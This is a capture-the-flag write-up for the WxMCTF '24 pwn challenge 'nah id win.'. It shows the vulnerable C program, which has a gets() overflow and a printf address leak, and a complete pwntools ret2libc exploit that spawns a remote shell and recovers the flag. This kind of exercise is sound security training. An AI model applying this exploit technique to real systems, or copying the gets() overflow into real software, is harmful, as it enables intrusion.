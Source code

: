 https://ctftime.org/event/2179/

# WxMCTF '24 Pwn 3 - nah id win. - PWN

As the strongest problem in history faced off against the strongest pwner of today, they asked it: "Are you the shell because you are /bin/sh? Or are you /bin/sh because you are the shell?"

The pwner laughed. "Stand proud. You are strong." said the pwner. At this moment, the pwner used their domain expansion.

"DOMAIN EXPANSION. ret2libc."

The problem began using reverse pwn technique, but it wasn't enough. The domain was simply too strong. However, the problem had not yet used its domain expansion.

"DOMAIN EXPANSION: Return restrictions." The problem said, and the domain was instantly shattered.

"Nah, I'd win." The problem said, and the pwner was dealt with.

## Solution

```
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a1db87142a8d420c8354f643e608f41ed5714fb6, for GNU/Linux 3.2.0, not stripped
```

```
$ file libc.so.6 
libc.so.6: ELF 32-bit LSB shared object, Intel 80386, version 1 (GNU/Linux), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=0598ef3e075d7653ff4d565675d15666ec9b7b31, for GNU/Linux 3.2.0, stripped
```

`a873738b612a3de3991566f8813407097b5750fd5d2ffd2c69d9b0e077ff5077  vuln`

`3270e3243afad32d24e0c4aadd9ba8e79e13346ebad4ac216c52fa00cb02cc83  vuln.c`

`07aeb88a6930f7fafcbfa3c8771fea0556cb19ab7ce341395bed8802c386896a  libc.so.6`

```
#include <stdio.h>
#include <stdlib.h>

int vuln() {
    char buf[0x20];
    printf("My cursed technique is revealing libc... %p\n",printf);
    gets(buf);
    if(__builtin_return_address(0) < 0x90000000) {
        return 0;
    }
    printf("NAH I'D WIN!\n");
    exit(0);
}
int main() {
    setvbuf(stdin, NULL, 2, 0);
    setvbuf(stdout, NULL, 2, 0);
    vuln();
    return 0;
}
```

`vuln/0x08049206`
- leaks the address of `printf` from libc
- ensures that the return address is less than `0x90000000`
	+ this just means we return directly to libc and that we must insert an additional ret gadget into the rop chain with an `0x8...` address

```
$ ROPgadget --binary ./vuln | grep ": ret"
0x0804900e : ret
0x0804919b : ret 0xe8c1
0x0804906a : ret 0xffff
```

```
from pwn import *

REMOTE_IP = "1cfac3a.678470.xyz"
REMOTE_PORT = 32572

libc = ELF("./libc.so.6")

p = remote(REMOTE_IP, REMOTE_PORT)

p.readuntil(b"libc... ")

leak = int(p.readline().decode(), 16)
libc.address = leak - libc.sym["printf"]

log.success(f"libc: {hex(libc.address)}")

payload = b"A" * 0x2c
payload += p32(0x0804900e) # ret < 0x90000000
payload += p32(libc.sym["system"])
payload += p32(0)
payload += p32(next(libc.search(b"/bin/sh")))

p.sendline(payload)

p.interactive()
```

Once we get the shell:

```
$ grep wx *
README.md:`wxmctf{d0main_expansion:ret2libc.}`
```

## Flag
`wxmctf{d0main_expansion:ret2libc.}`
